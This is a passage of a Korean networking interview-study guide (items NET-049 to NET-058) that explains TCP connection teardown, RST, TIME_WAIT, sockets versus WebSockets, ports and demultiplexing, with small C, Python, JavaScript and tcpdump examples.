- **이유**: 양방향 통신의 독립적 종료
- **상태**: FIN_WAIT_1, FIN_WAIT_2, CLOSE_WAIT, LAST_ACK, TIME_WAIT

### NET-049
Q. 패킷이 4-way handshake 목적인지 어떻게 파악할 수 있을까요?

**TCP 헤더의 플래그 필드를 확인하여 4-Way Handshake 패킷을 파악.**

**판별 방법:**

**1. FIN 플래그 확인**
- FIN=1이면 종료 관련 패킷
- 연결 종료 요청

**2. ACK 플래그 확인**
- FIN과 함께 ACK 확인
- 종료 확인 응답

**3. 플래그 조합 분석**
- FIN만: 종료 요청 (1단계, 3단계)
- FIN+ACK: 종료 요청+확인 (일부 구현)
- ACK만: 종료 확인 (2단계, 4단계)

```mermaid
graph TD
    A[패킷 수신] --> B[TCP 헤더 확인]
    B --> C{FIN 플래그?}
    C -->|예| D[종료 관련 패킷]
    C -->|아니오| E[일반 데이터 패킷]
    
    D --> F{ACK 플래그?}
    F -->|예| G[종료 요청+확인<br/>또는<br/>종료 확인]
    F -->|아니오| H[종료 요청<br/>FIN만]
    
    style D fill:#ff9999
```

**패킷 유형:**

**1단계: FIN (종료 요청)**
```
FIN = 1
ACK = 0
→ 연결 종료 요청
```

**2단계: ACK (종료 확인)**
```
FIN = 0
ACK = 1
ACK 번호 = FIN의 Seq + 1
→ 종료 요청 확인
```

**3단계: FIN (상대방 종료 요청)**
```
FIN = 1
ACK = 0 또는 1
→ 상대방도 종료 요청
```

**4단계: ACK (최종 확인)**
```
FIN = 0
ACK = 1
ACK 번호 = 상대방 FIN의 Seq + 1
→ 종료 확인
```

**실제 판별:**

**코드 예시:**
```c
// TCP 헤더 확인
if (tcp_header->flags & TCP_FIN) {
    // FIN 플래그 있음
    if (tcp_header->flags & TCP_ACK) {
        // FIN + ACK (종료 요청 + 확인)
    } else {
        // FIN만 (종료 요청)
    }
} else if (tcp_header->flags & TCP_ACK) {
    // ACK만 (종료 확인)
}
```

**상태 기반 판별:**

**연결 상태 확인:**
```
ESTABLISHED 상태에서 FIN 수신
→ 1단계 (상대방 종료 요청)

FIN_WAIT_1 상태에서 ACK 수신
→ 2단계 (종료 요청 확인)

FIN_WAIT_2 상태에서 FIN 수신
→ 3단계 (상대방 종료 요청)

LAST_ACK 상태에서 ACK 수신
→ 4단계 (종료 확인)
```

**패킷 분석 도구:**

**Wireshark:**
```
필터: tcp.flags.fin == 1
→ FIN 플래그가 있는 패킷만 표시

필터: tcp.flags.fin == 1 and tcp.flags.ack == 1
→ FIN+ACK 패킷만 표시
```

**tcpdump:**
```bash
# FIN 플래그가 있는 패킷 캡처
tcpdump 'tcp[13] & 1 != 0'

# FIN+ACK 패킷 캡처
tcpdump 'tcp[13] & 1 != 0 and tcp[13] & 16 != 0'
```

**결론:**
- **판별 방법**: TCP 헤더의 FIN, ACK 플래그 확인
- **플래그 조합**: FIN만, ACK만, FIN+ACK
- **상태 기반**: 연결 상태와 함께 판별
- **도구**: Wireshark, tcpdump 사용

### NET-050
Q. 빨리 끊어야 할 경우엔, (즉, 4-way Handshake를 할 여유가 없다면) 어떻게 종료할 수 있을까요?

**빠른 종료를 위해 RST (Reset) 플래그를 사용하여 연결을 강제 종료.**

**RST (Reset) 패킷:**

**정의:**
- 연결을 즉시 강제 종료
- 4-Way Handshake 생략
- 양쪽 모두 즉시 CLOSED 상태

**특징:**
- 즉시 종료 (0 RTT)
- 정상 종료가 아님
- 데이터 손실 가능

```mermaid
graph TD
    A[연결 종료 필요] --> B{정상 종료?}
    B -->|예| C[4-Way Handshake<br/>안전하지만 느림]
    B -->|아니오| D[RST 패킷<br/>빠르지만 위험]
    
    C --> E[데이터 보장<br/>안전]
    D --> F[데이터 손실 가능<br/>빠름]
    
    style C fill:#99ff99
    style D fill:#ffcc99
```

**RST 사용:**

**송신 측:**
```
RST 플래그 = 1
→ 즉시 연결 종료
→ 상대방에 RST 전송
```

**수신 측:**
```
RST 패킷 수신
→ 즉시 연결 종료
→ 버퍼의 데이터 폐기
→ CLOSED 상태
```

**사용 시나리오:**

**1. 응급 상황**
- 시스템 재시작
- 네트워크 장애
- 즉시 종료 필요

**2. 오류 처리**
- 잘못된 연결
- 프로토콜 오류
- 즉시 정리

**3. 보안**
- 공격 감지
- 의심스러운 연결
- 즉시 차단

**비교:**

| 구분 | 4-Way Handshake | RST |
|------|-----------------|-----|
| **시간** | 2 RTT | 0 RTT |
| **안전성** | 안전 (데이터 보장) | 위험 (데이터 손실) |
| **상태** | 정상 종료 | 비정상 종료 |
| **사용** | 일반적 | 응급 상황 |

**실제 사용:**

**소켓 프로그래밍:**
```c
// 정상 종료
close(socket);  // 4-Way Handshake

// 강제 종료
setsockopt(socket, SOL_SOCKET, SO_LINGER, ...);
close(socket);  // RST 전송
```

**Python:**
```python
# 정상 종료
sock.close()  # 4-Way Handshake

# 강제 종료
sock.setsockopt(socket.SOL_SOCKET, socket.SO_LINGER, 
                struct.pack('ii', 1, 0))
sock.close()  # RST 전송
```

**주의사항:**

**1. 데이터 손실**
- 전송 중인 데이터 손실
- 버퍼의 데이터 폐기
- 재전송 불가능

**2. 상대방 오류**
- 상대방이 예상치 못한 종료
- 애플리케이션 오류 가능
- 정상 종료 권장

**3. 리소스 정리**
- 리소스가 즉시 해제
- TIME_WAIT 상태 없음
- 포트 재사용 가능

**결론:**
- **빠른 종료**: RST 패킷 사용
- **장점**: 즉시 종료, 빠름
- **단점**: 데이터 손실 가능, 비정상 종료
- **사용**: 응급 상황, 오류 처리
- **권장**: 가능하면 4-Way Handshake 사용

### NET-051
Q. 4-Way Handshake 과정에서 중간에 한쪽 네트워크가 강제로 종료된다면, 반대쪽은 이를 어떻게 인식할 수 있을까요?

**한쪽이 강제 종료되면 상대방은 Keep-Alive, 타임아웃, 연결 상태 확인 등을 통해 감지.**

**감지 방법:**

**1. Keep-Alive**
- 주기적으로 빈 패킷 전송
- 응답 없으면 연결 끊김 판단

**2. 타임아웃**
- 일정 시간 응답 없음
- 연결 끊김으로 판단

**3. 데이터 전송 시도**
- 데이터 전송 시도
- 응답 없거나 RST 수신
- 연결 끊김 확인

**4. 하트비트 (Heartbeat)**
- 애플리케이션 레벨에서 주기적 확인
- 응답 없으면 연결 끊김

```mermaid
graph TD
    A[한쪽 강제 종료] --> B[상대방 감지 방법]
    
    B --> C[Keep-Alive<br/>주기적 확인]
    B --> D[타임아웃<br/>응답 없음]
    B --> E[데이터 전송<br/>응답 확인]
    B --> F[하트비트<br/>애플리케이션 레벨]
    
    C --> G[빈 패킷 전송<br/>응답 없음]
    D --> H[일정 시간<br/>응답 없음]
    E --> I[데이터 전송<br/>RST 수신]
    F --> J[주기적 메시지<br/>응답 없음]
    
    style A fill:#ff9999
```

**상세 설명:**

**1. TCP Keep-Alive:**

**동작:**
```
정상: 주기적으로 Keep-Alive 전송 → ACK 수신
종료: Keep-Alive 전송 → 응답 없음 → 연결 끊김 판단
```

**설정:**
```c
// Keep-Alive 활성화
setsockopt(socket, SOL_SOCKET, SO_KEEPALIVE, 1, ...);

// 주기 설정 (Linux)
sysctl net.ipv4.tcp_keepalive_time = 7200  // 2시간
```

**2. 타임아웃:**

**동작:**
```
데이터 전송 → 응답 대기
→ 타임아웃 (일정 시간 응답 없음)
→ 연결 끊김 판단
```

**설정:**
```c
// 타임아웃 설정
struct timeval timeout;
timeout.tv_sec = 30;  // 30초
setsockopt(socket, SOL_SOCKET, SO_RCVTIMEO, &timeout, ...);
```

**3. 데이터 전송 시도:**

**동작:**
```
데이터 전송
→ 응답 없음 또는 RST 수신
→ 연결 끊김 확인
```

**4. 하트비트:**

**동작:**
```
애플리케이션에서 주기적으로 메시지 전송
→ 응답 없음
→ 연결 끊김 판단
```

**실제 시나리오:**

**시나리오 1: Keep-Alive**
```
1. 클라이언트: Keep-Alive 전송
2. 서버: 강제 종료됨
3. 클라이언트: Keep-Alive 전송
4. 서버: 응답 없음
5. 클라이언트: 연결 끊김 판단
```

**시나리오 2: 데이터 전송**
```
1. 클라이언트: 데이터 전송 시도
2. 서버: 강제 종료됨
3. 라우터: RST 전송 또는 ICMP 오류
4. 클라이언트: 연결 끊김 확인
```

**시나리오 3: 타임아웃**
```
1. 클라이언트: 마지막 통신 후 대기
2. 서버: 강제 종료됨
3. 클라이언트: 일정 시간 응답 없음
4. 클라이언트: 타임아웃 → 연결 끊김 판단
```

**ICMP 오류:**

**연결 끊김 감지:**
```
데이터 전송
→ 라우터: "호스트에 도달할 수 없음" (ICMP)
→ 연결 끊김 확인
```

**RST 수신:**
```
데이터 전송
→ 상대방 또는 중간 장치: RST 전송
→ 연결 끊김 확인
```

**애플리케이션 레벨:**

**하트비트 구현:**
```javascript
// 주기적으로 핑 전송
setInterval(() => {
  socket.ping();
  if (!socket.pongReceived) {
    // 연결 끊김
    socket.close();
  }
}, 30000);  // 30초마다
```

**에러 처리:**
```javascript
socket.on('error', (err) => {
  // 연결 오류
  // 연결 끊김 처리
});

socket.on('close', () => {
  // 연결 종료
});
```

**결론:**
- **감지 방법**: Keep-Alive, 타임아웃, 데이터 전송, 하트비트
- **자동 감지**: TCP Keep-Alive, 타임아웃
- **수동 감지**: 데이터 전송 시도, 하트비트
- **오류 신호**: RST, ICMP 오류
- **처리**: 연결 정리, 재연결 시도

### NET-052
Q. 왜 종료 후에 바로 끝나지 않고, TIME_WAIT 상태로 대기하는 것 일까요?

**TIME_WAIT 상태는 지연된 패킷 처리와 연결의 완전한 종료를 보장하기 위해 필요.**

**TIME_WAIT 상태:**

**정의:**
- 연결 종료 후 2MSL (Maximum Segment Lifetime) 동안 대기
- MSL: 패킷이 네트워크에 존재할 수 있는 최대 시간 (보통 30초~2분)
- 2MSL: 약 1분~4분

**목적:**

**1. 지연된 패킷 처리**
- 네트워크 지연으로 늦게 도착한 패킷 처리
- 같은 포트로 오는 지연 패킷과 구분

**2. 마지막 ACK 보장**
- 마지막 ACK가 손실되면 상대방이 재전송
- TIME_WAIT 동안 재전송 수신 가능

**3. 포트 재사용 방지**
- 같은 포트를 즉시 재사용 방지
- 지연된 패킷과 새 연결 구분

```mermaid
graph TD
    A[연결 종료] --> B[TIME_WAIT 상태<br/>2MSL 대기]
    B --> C[지연된 패킷 처리]
    B --> D[마지막 ACK 보장]
    B --> E[포트 재사용 방지]
    
    C --> F[늦게 도착한 패킷<br/>정상 처리]
    D --> G[ACK 손실 시<br/>재전송 수신]
    E --> H[같은 포트<br/>재사용 방지]
    
    style B fill:#ffcc99
```

**문제 시나리오:**

**TIME_WAIT 없을 때:**

**1. 지연된 패킷 문제:**
```
연결 A: 포트 50000 사용
→ 연결 종료
→ 즉시 포트 50000 재사용 (새 연결 B)
→ 연결 A의 지연된 패킷 도착
→ 연결 B가 잘못된 패킷 수신
→ 데이터 오류
```

**2. 마지막 ACK 손실:**
```
클라이언트: 마지막 ACK 전송 (손실)
서버: ACK 없음 → FIN 재전송
클라이언트: 이미 종료됨 → 응답 없음
서버: 계속 재전송
→ 리소스 낭비
```

**TIME_WAIT 있을 때:**

**1. 지연된 패킷 처리:**
```
연결 A: 포트 50000 사용
→ 연결 종료
→ TIME_WAIT (2MSL 대기)
→ 지연된 패킷 도착 → 정상 처리
→ TIME_WAIT 종료
→ 포트 50000 재사용 가능
```

**2. 마지막 ACK 보장:**
```
클라이언트: 마지막 ACK 전송 (손실)
서버: FIN 재전송
클라이언트: TIME_WAIT 상태 → ACK 재전송
서버: ACK 수신 → 정상 종료
```

**2MSL의 의미:**

**MSL (Maximum Segment Lifetime):**
- 패킷이 네트워크에 존재할 수 있는 최대 시간
- 보통 30초~2분

**2MSL:**
- 왕복 시간 고려
- 지연된 패킷이 도착할 시간 확보
- 보통 1분~4분

**포트 재사용:**

**TIME_WAIT 중:**
```
포트 50000: TIME_WAIT 상태
→ 같은 포트로 새 연결 불가
→ 다른 포트 사용
```

**TIME_WAIT 종료 후:**
```
포트 50000: CLOSED 상태
→ 새 연결에 사용 가능
```

**최적화:**

**SO_REUSEADDR:**
```c
// TIME_WAIT 중인 포트 재사용 허용
setsockopt(socket, SOL_SOCKET, SO_REUSEADDR, 1, ...);
```

**주의:**
- 지연된 패킷과 충돌 가능
- 신중하게 사용

**실제 영향:**

**서버 측:**
- 서버가 먼저 종료하면 TIME_WAIT
- 많은 연결 시 포트 고갈 가능
- 클라이언트가 먼저 종료 권장

**클라이언트 측:**
- 클라이언트가 먼저 종료하면 TIME_WAIT
- 일반적으로 문제 없음
- 포트가 많음

**결론:**
- **TIME_WAIT 목적**: 지연된 패킷 처리, 마지막 ACK 보장, 포트 재사용 방지
- **대기 시간**: 2MSL (약 1~4분)
- **필요성**: 연결의 완전한 종료 보장
- **최적화**: SO_REUSEADDR (주의해서 사용)

---

## 📌 소켓 통신

### NET-053
Q. 웹소켓과 소켓 통신의 차이에 대해 설명해 주세요.

**웹소켓(WebSocket)**과 **소켓 통신(Socket)**은 서로 다른 레벨의 통신 방식.

**소켓 통신 (Socket):**

**정의:**
- 운영체제가 제공하는 네트워크 통신 인터페이스
- TCP/UDP 기반
- 저수준 API

**특징:**
- 직접적인 네트워크 제어
- 프로토콜 자유롭게 구현
- 바이너리/텍스트 모두 가능

**웹소켓 (WebSocket):**

**정의:**
- HTTP 기반의 양방향 통신 프로토콜
- 웹 브라우저와 서버 간 통신
- 고수준 프로토콜

**특징:**
- HTTP에서 시작 (Upgrade)
- 양방향 실시간 통신
- 웹 표준

```mermaid
graph TD
    A[네트워크 통신] --> B[소켓 통신<br/>저수준]
    A --> C[웹소켓<br/>고수준]
    
    B --> D[TCP/UDP 직접 사용<br/>프로토콜 자유<br/>모든 애플리케이션]
    C --> E[HTTP 기반<br/>웹 표준<br/>브라우저 지원]
    
    style B fill:#ffcc99
    style C fill:#99ff99
```

**비교표:**

| 구분 | 소켓 통신 | 웹소켓 |
|------|-----------|--------|
| **레벨** | 저수준 (OS) | 고수준 (애플리케이션) |
| **기반** | TCP/UDP | HTTP → WebSocket |
| **프로토콜** | 자유롭게 구현 | WebSocket 프로토콜 |
| **사용** | 모든 애플리케이션 | 웹 애플리케이션 |
| **브라우저** | 직접 사용 어려움 | 네이티브 지원 |

**소켓 통신:**

**특징:**
- 운영체제 레벨 API
- TCP/UDP 직접 사용
- 프로토콜 자유롭게 구현

**예시:**
```c
// C 소켓 프로그래밍
int sock = socket(AF_INET, SOCK_STREAM, 0);
connect(sock, &addr, sizeof(addr));
send(sock, data, len, 0);
```

**웹소켓:**

**특징:**
- HTTP에서 시작
- Upgrade 헤더로 전환
- 웹 표준 프로토콜

**예시:**
```javascript
// JavaScript WebSocket
const ws = new WebSocket('ws://example.com');
ws.onopen = () => {
  ws.send('Hello');
};
ws.onmessage = (event) => {
  console.log(event.data);
};
```

**연결 과정:**

**소켓 통신:**
```
1. 소켓 생성
2. 연결 설정 (TCP 3-Way Handshake)
3. 데이터 전송
```

**웹소켓:**
```
1. HTTP 요청 (Upgrade 헤더)
2. 서버: 101 Switching Protocols
3. WebSocket 프로토콜로 전환
4. 양방향 통신
```

**사용 사례:**

**소켓 통신:**
- 서버 간 통신
- 게임 서버
- 실시간 시스템
- 모든 네트워크 애플리케이션

**웹소켓:**
- 웹 채팅
- 실시간 알림
- 주식 시세
- 온라인 게임 (웹)

**관계:**

**웹소켓은 소켓 위에 구현:**
```
애플리케이션 레벨: WebSocket 프로토콜
전송 레벨: TCP 소켓
```

**결론:**
- **소켓 통신**: 저수준, OS 레벨, TCP/UDP 직접 사용
- **웹소켓**: 고수준, HTTP 기반, 웹 표준
- **차이**: 레벨과 사용 목적
- **관계**: 웹소켓은 소켓 위에 구현

### NET-054
Q. 소켓과 포트의 차이가 무엇인가요?

**소켓(Socket)**과 **포트(Port)**는 서로 다른 개념으로, 소켓이 포트를 포함하는 더 넓은 개념.

**포트 (Port):**

**정의:**
- 네트워크 통신의 엔드포인트 식별자
- 16비트 숫자 (0~65535)
- 특정 서비스 식별

**특징:**
- 숫자로 표현
- 서비스 식별
- 하나의 포트에 하나의 서비스

**소켓 (Socket):**

**정의:**
- 네트워크 통신의 엔드포인트
- IP 주소 + 포트 번호
- 연결의 양쪽 끝

**특징:**
- IP 주소와 포트 조합
- 연결 식별
- 양방향 통신

```mermaid
graph TD
    A[네트워크 엔드포인트] --> B[포트<br/>숫자만]
    A --> C[소켓<br/>IP + 포트]
    
    B --> D[서비스 식별<br/>예: 80, 443]
    C --> E[연결 식별<br/>예: 192.168.1.1:50000]
    
    style C fill:#99ff99
```

**비교:**

| 구분 | 포트 | 소켓 |
|------|------|------|
| **정의** | 숫자 (0~65535) | IP 주소 + 포트 |
| **범위** | 단일 값 | IP와 포트 조합 |
| **용도** | 서비스 식별 | 연결 식별 |
| **예시** | 80, 443 | 192.168.1.1:50000 |

**소켓 쌍 (Socket Pair):**

**연결 식별:**
```
연결 = (Source IP, Source Port, Dest IP, Dest Port)

예:
클라이언트: 192.168.1.100:50000
서버: 192.168.1.1:80

소켓 쌍:
(192.168.1.100, 50000, 192.168.1.1, 80)
```

**포트의 역할:**

**1. 서비스 식별**
```
포트 80: HTTP
포트 443: HTTPS
포트 22: SSH
포트 3306: MySQL
```

**2. 멀티플렉싱**
```
같은 IP에서 여러 서비스 구분
192.168.1.1:80 (웹 서버)
192.168.1.1:22 (SSH 서버)
```

**소켓의 역할:**

**1. 연결 식별**
```
각 연결을 고유하게 식별
같은 포트에 여러 연결 가능
```

**2. 양방향 통신**
```
소켓 = 연결의 양쪽 끝
양방향 데이터 전송
```

**실제 사용:**

**포트:**
```
서버: 포트 80에서 대기
클라이언트: 포트 80으로 연결 요청
```

**소켓:**
```
서버 소켓: 192.168.1.1:80 (대기)
클라이언트 소켓: 192.168.1.100:50000
연결: (192.168.1.100:50000 ↔ 192.168.1.1:80)
```

**비유:**
- **포트**: 아파트 호수 (서비스 식별)
- **소켓**: 아파트 주소 + 호수 (연결 식별)

**결론:**
- **포트**: 숫자, 서비스 식별
- **소켓**: IP + 포트, 연결 식별
- **관계**: 소켓이 포트를 포함
- **용도**: 포트는 서비스, 소켓은 연결

### NET-055
Q. 여러 소켓이 있다고 할 때, 그 소켓의 포트 번호는 모두 다른가요?

**아니다. 같은 포트 번호를 사용하는 소켓이 여러 개 있을 수 있음.**

**가능한 경우:**

**1. 서버 측 (Listening Socket)**
- 하나의 포트에서 여러 연결 수락
- 각 연결은 다른 클라이언트 포트
- 서버 포트는 동일

**2. 클라이언트 측 (Client Socket)**
- 같은 서버 포트로 여러 연결
- 각 연결은 다른 클라이언트 포트
- 서버 포트는 동일

**3. 소켓 쌍으로 구분**
- 소켓은 IP + 포트 조합
- 소켓 쌍이 다르면 다른 소켓

```mermaid
graph TD
    A[여러 소켓] --> B[서버 포트<br/>같을 수 있음]
    A --> C[클라이언트 포트<br/>다름]
    
    B --> D[서버: 192.168.1.1:80<br/>연결 1, 2, 3...]
    C --> E[클라이언트 1: 192.168.1.100:50000<br/>클라이언트 2: 192.168.1.100:50001<br/>클라이언트 3: 192.168.1.101:50000]
    
    style B fill:#ffcc99
    style C fill:#99ff99
```

**서버 측 예시:**

**하나의 포트, 여러 연결:**
```
서버: 192.168.1.1:80 (Listening)

연결 1:
  클라이언트: 192.168.1.100:50000
  소켓 쌍: (192.168.1.100:50000, 192.168.1.1:80)

연결 2:
  클라이언트: 192.168.1.100:50001
  소켓 쌍: (192.168.1.100:50001, 192.168.1.1:80)

연결 3:
  클라이언트: 192.168.1.101:50000
  소켓 쌍: (192.168.1.101:50000, 192.168.1.1:80)

→ 서버 포트는 모두 80 (같음)
→ 소켓 쌍은 모두 다름
```

**클라이언트 측 예시:**

**같은 서버 포트로 여러 연결:**
```
클라이언트: 192.168.1.100

연결 1: 192.168.1.100:50000 → 192.168.1.1:80
연결 2: 192.168.1.100:50001 → 192.168.1.1:80
연결 3: 192.168.1.100:50002 → 192.168.1.1:80

→ 서버 포트는 모두 80 (같음)
→ 클라이언트 포트는 다름
```

**소켓 쌍의 고유성:**

**소켓 쌍으로 구분:**
```
소켓 쌍 = (Source IP, Source Port, Dest IP, Dest Port)

연결 1: (192.168.1.100, 50000, 192.168.1.1, 80)
연결 2: (192.168.1.100, 50001, 192.168.1.1, 80)
연결 3: (192.168.1.101, 50000, 192.168.1.1, 80)

→ 소켓 쌍이 모두 다름
→ 각각 다른 연결
```

**포트 재사용:**

**같은 포트 사용 가능:**
- 서버: Listening 포트는 하나
- 클라이언트: 임시 포트는 다름
- 소켓 쌍으로 구분

**포트 충돌:**

**같은 소켓 쌍 불가능:**
```
연결 1: (192.168.1.100, 50000, 192.168.1.1, 80)
연결 2: (192.168.1.100, 50000, 192.168.1.1, 80)
→ 불가능 (같은 소켓 쌍)
```

**실제 동작:**

**웹 서버:**
```
서버: 포트 80에서 대기
클라이언트 1: 연결 (포트 50000)
클라이언트 2: 연결 (포트 50001)
클라이언트 3: 연결 (포트 50002)

→ 서버 포트는 모두 80
→ 각각 다른 연결
```

**결론:**
- **같은 포트 가능**: 서버 포트는 동일할 수 있음
- **소켓 쌍으로 구분**: IP + 포트 조합으로 고유
- **클라이언트 포트**: 각 연결마다 다름
- **서버 포트**: 여러 연결이 같은 포트 사용

### NET-056
Q. 사용자의 요청이 무수히 많아지면, 소켓도 무수히 생성되나요?

**아니다. 서버는 효율적인 소켓 관리를 통해 제한된 수의 소켓으로 많은 요청 처리.**

**소켓 관리 방법:**

**1. 연결 풀 (Connection Pool)**
- 미리 생성한 소켓 재사용
- 요청마다 새 소켓 생성 안 함
- 효율적인 리소스 사용

**2. I/O 멀티플렉싱**
- 하나의 스레드가 여러 소켓 관리
- select, poll, epoll 사용
- 소켓 수는 많지만 스레드는 적음

**3. 비동기 I/O**
- 논블로킹 소켓 사용
- 이벤트 기반 처리
- 많은 연결 효율적 처리

**4. 연결 제한**
- 최대 연결 수 제한
- 초과 시 거부 또는 대기
- 리소스 보호

```mermaid
graph TD
    A[많은 요청] --> B[소켓 관리 방법]
    
    B --> C[연결 풀<br/>소켓 재사용]
    B --> D[I/O 멀티플렉싱<br/>여러 소켓 관리]
    B --> E[비동기 I/O<br/>이벤트 기반]
    B --> F[연결 제한<br/>최대 수 제한]
    
    C --> G[효율적 리소스 사용]
    D --> H[적은 스레드로<br/>많은 연결]
    E --> I[논블로킹<br/>효율적 처리]
    F --> J[리소스 보호]
    
    style B fill:#99ff99
```

**연결 풀:**

**동작:**
```
1. 미리 소켓 생성 (풀에 저장)
2. 요청 시 풀에서 소켓 가져오기
3. 사용 후 풀에 반환
4. 재사용
```

**장점:**
- 소켓 생성/소멸 비용 감소
- 리소스 효율적 사용
- 빠른 응답

**I/O 멀티플렉싱:**

**동작:**
```
1. 여러 소켓을 하나의 스레드가 관리
2. select/epoll로 준비된 소켓만 처리
3. 많은 연결을 적은 스레드로 처리
```

**예시:**
```c
// epoll 사용
int epfd = epoll_create1(0);
// 여러 소켓 등록
epoll_ctl(epfd, EPOLL_CTL_ADD, sock1, &event);
epoll_ctl(epfd, EPOLL_CTL_ADD, sock2, &event);
// 하나의 스레드로 모두 처리
epoll_wait(epfd, events, MAX_EVENTS, -1);
```

**비동기 I/O:**

**동작:**
```
1. 논블로킹 소켓 사용
2. 이벤트 기반 처리
3. 많은 연결 효율적 처리
```

**연결 제한:**

**최대 연결 수:**
```
서버 설정:
  - 최대 동시 연결: 10,000
  - 초과 시: 거부 또는 대기 큐
```

**리소스 관리:**
- 메모리: 연결당 메모리 사용
- 파일 디스크립터: OS 제한
- CPU: 처리 능력

**실제 예시:**

**웹 서버 (Nginx):**
```
worker_processes: 4
worker_connections: 1024
→ 최대: 4 × 1024 = 4,096 연결
→ epoll로 효율적 처리
```

**Node.js:**
```
이벤트 루프로 많은 연결 처리
논블로킹 I/O
→ 수만 개의 연결 가능
```

**소켓 수 vs 요청 수:**

**1:1이 아님:**
- 요청 10,000개 ≠ 소켓 10,000개
- 연결 풀, 재사용으로 효율적 관리
- 실제 소켓 수는 적음

**실제 소켓 수:**
```
요청: 10,000개/초
연결 풀: 100개 소켓
→ 100개 소켓으로 10,000개 요청 처리
```

**결론:**
- **소켓 무한 생성 아님**: 효율적 관리
- **방법**: 연결 풀, 멀티플렉싱, 비동기 I/O
- **제한**: 최대 연결 수 제한
- **효율**: 적은 소켓으로 많은 요청 처리

### NET-057
Q. 멀티플렉싱과 디멀티플렉싱에 대해 설명해 주세요.

**멀티플렉싱(Multiplexing)**과 **디멀티플렉싱(Demultiplexing)**은 데이터 전송의 집합과 분리 과정.

**멀티플렉싱 (Multiplexing):**

**정의:**
- 여러 소스의 데이터를 하나의 채널로 집합
- 송신 측에서 수행
- 여러 스트림을 하나로 합침

**디멀티플렉싱 (Demultiplexing):**

**정의:**
- 하나의 채널에서 여러 목적지로 데이터 분리
- 수신 측에서 수행
- 하나의 스트림을 여러 개로 나눔

```mermaid
graph LR
    A[멀티플렉싱<br/>송신 측] --> B[여러 소스]
    B --> C[하나의 채널]
    
    D[디멀티플렉싱<br/>수신 측] --> E[하나의 채널]
    E --> F[여러 목적지]
    
    style A fill:#99ff99
    style D fill:#ffcc99
```

**TCP에서의 멀티플렉싱:**

**송신 측:**
```
애플리케이션 1 → 소켓 1
애플리케이션 2 → 소켓 2
애플리케이션 3 → 소켓 3
        ↓
    TCP 계층
        ↓
    IP 계층
        ↓
    네트워크
```

**TCP에서의 디멀티플렉싱:**

**수신 측:**
```
네트워크
    ↓
IP 계층
    ↓
TCP 계층
    ↓
소켓 1 → 애플리케이션 1
소켓 2 → 애플리케이션 2
소켓 3 → 애플리케이션 3
```

**디멀티플렉싱 키:**

**TCP:**
- 목적지 IP 주소
- 목적지 포트 번호
- 소스 IP 주소
- 소스 포트 번호

**UDP:**
- 목적지 IP 주소
- 목적지 포트 번호

**실제 예시:**

**멀티플렉싱:**
```
웹 서버: 포트 80
SSH 서버: 포트 22
FTP 서버: 포트 21
    ↓
같은 네트워크 인터페이스
    ↓
하나의 네트워크로 전송
```

**디멀티플렉싱:**
```
네트워크에서 패킷 수신
    ↓
목적지 포트 확인
    ↓
포트 80 → 웹 서버
포트 22 → SSH 서버
포트 21 → FTP 서버
```

**비교:**

| 구분 | 멀티플렉싱 | 디멀티플렉싱 |
|------|-----------|-------------|
| **방향** | 송신 측 | 수신 측 |
| **동작** | 여러 개 → 하나 | 하나 → 여러 개 |
| **목적** | 채널 효율성 | 올바른 목적지 전달 |

**결론:**
- **멀티플렉싱**: 여러 소스를 하나의 채널로 집합 (송신)
- **디멀티플렉싱**: 하나의 채널을 여러 목적지로 분리 (수신)
- **TCP**: IP 주소와 포트로 디멀티플렉싱
- **목적**: 효율적인 채널 사용과 올바른 전달

### NET-058
Q. 디멀티플렉싱의 과정에 대해 설명해 주세요.

**디멀티플렉싱은 수신한 패킷을 올바른 애플리케이션으로 전달하는 과정.**

**과정:**

**1. 패킷 수신**
- 네트워크에서 패킷 수신
- IP 계층에서 처리

**2. 프로토콜 확인**
- IP 헤더의 프로토콜 필드 확인
- TCP인지 UDP인지 판별

**3. 포트 번호 확인**
- TCP/UDP 헤더의 목적지 포트 확인
- 어떤 서비스인지 판별

**4. 소켓 매칭**
- 목적지 IP와 포트로 소켓 찾기
- 해당 소켓으로 데이터 전달

**5. 애플리케이션 전달**
- 소켓을 통해 애플리케이션에 전달
- 애플리케이션이 데이터 처리

```mermaid
graph TD
    A[패킷 수신] --> B[IP 헤더 확인]
    B --> C[프로토콜 확인<br/>TCP/UDP]
    C --> D[포트 번호 확인]
    D --> E[소켓 찾기<br/>IP + 포트]
    E --> F[애플리케이션 전달]
    
    style A fill:#ff9999
    style F fill:#99ff99
```

**상세 과정:**

**1. IP 계층:**
```
패킷 수신
→ 목적지 IP 주소 확인
→ 로컬 IP인지 확인
→ 프로토콜 필드 확인 (TCP: 6, UDP: 17)
```

**2. 전송 계층 (TCP/UDP):**
```
TCP/UDP 헤더 확인
→ 목적지 포트 번호 확인
→ 소켓 테이블에서 매칭
```

**3. 소켓 매칭:**
```
소켓 = (로컬 IP, 로컬 포트, 원격 IP, 원격 포트)

매칭 과정:
1. 목적지 IP = 로컬 IP?
2. 목적지 포트 = 로컬 포트?
3. 소스 IP = 원격 IP? (연결된 소켓인 경우)
4. 소스 포트 = 원격 포트?
→ 매칭되는 소켓 찾기
```

**4. 애플리케이션 전달:**
```
소켓 버퍼에 데이터 저장
→ 애플리케이션에 알림
→ 애플리케이션이 데이터 읽기
```

**TCP 디멀티플렉싱:**

**연결된 소켓:**
```
매칭 키:
- 로컬 IP
- 로컬 포트
- 원격 IP
- 원격 포트

→ 정확한 연결 찾기
```

**Listening 소켓:**
```
매칭 키:
- 로컬 IP
- 로컬 포트
- 원격 IP: 0.0.0.0 (모두)
- 원격 포트: 0 (모두)

→ 새 연결 수락
```

**UDP 디멀티플렉싱:**

**매칭 키:**
```
- 로컬 IP
- 로컬 포트

→ 원격 정보는 무시 (비연결)
```

**실제 예시:**

**패킷 수신:**
```
목적지 IP: 192.168.1.1
목적지 포트: 80
프로토콜: TCP
```

**소켓 매칭:**
```
소켓 1: (192.168.1.1, 80, 192.168.1.100, 50000)
소켓 2: (192.168.1.1, 80, 192.168.1.101, 50001)

패킷:
  소스: 192.168.1.100:50000
  목적지: 192.168.1.1:80

→ 소켓 1과 매칭
→ 소켓 1으로 데이터 전달
```

**우선순위:**

**1. 정확한 매칭 (연결된 소켓)**
- 모든 필드 일치
- 우선 선택

**2. 와일드카드 매칭 (Listening 소켓)**
- 원격 정보 무시
- 새 연결 수락

**결론:**
- **디멀티플렉싱**: 패킷을 올바른 애플리케이션으로 전달
- **과정**: IP 확인 → 프로토콜 확인 → 포트 확인 → 소켓 매칭 → 전달
- **키**: IP 주소와 포트 번호
- **TCP**: 4-tuple (로컬 IP, 로컬 포트, 원격 IP, 원격 포트)
